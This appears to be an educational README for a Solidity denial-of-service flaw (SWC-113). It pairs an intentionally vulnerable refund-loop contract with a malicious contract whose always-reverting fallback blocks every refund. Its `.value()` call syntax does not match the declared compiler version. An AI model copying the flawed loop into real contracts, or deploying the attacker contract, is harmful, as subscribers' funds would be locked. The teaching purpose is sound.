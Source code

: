 DoS Attack Contract
===================

This set of contracts shows how a contract may be susceptible to a denial of service attack by an unexpected revert ([SWC-113](https://swcregistry.io/docs/SWC-113)).

The `VulnerableContract` loops over the subscribers array, making a transfer to each address. This is dangerous because when the `refundFees()` function is called and the `VulnerableContract` attempts to send funds to the `MaliciousContract`, the `MaliciousContract` fallback function is called, which stops execution and reverts. This transaction will never succeed and `refundFees()` will never successfully execute, preventing any subscribers from getting their subscription fee back.

```
pragma solidity 0.8.4;

// Example DenialOfService Attack  
contract VulnerableContract {    
  address owner = msg.sender;    
  address payable[] public subscribers;    
  uint FEE_COST = 1 ether;          
  
  function subscribe() public payable {        
    require(msg.value == FEE_COST, "Insufficient msg.value");        
    subscribers.push(msg.sender);    
  }          
  
  function refundFees() public {        
    require(msg.sender == owner, "msg.sender should be owner");        
    for(uint i = subscribers.length; i > 0; i--) {            
      subscribers[i - 1].transfer(FEE_COST);            
      subscribers.pop();        
    }
  }          
  
  function getBalance() view public returns(uint) {        
    return address(this).balance;    
  }          
  
  // Auxiliar function for demo. It wouldn't be present in a vulnerable contract    
  function removeLastSubscriber() public {        
    subscribers.pop();    
  }
  
}  
  
contract MaliciousContract {    
  VulnerableContract vulnerableContract = VulnerableContract(0x5E72914535f202659083Db3a02C984188Fa26e9f);          
  
  function subscribe() public payable {        
    vulnerableContract.subscribe.value(msg.value)();       
  }          
  
  fallback() external payable {        
    require(false);    
  }
}
```
 
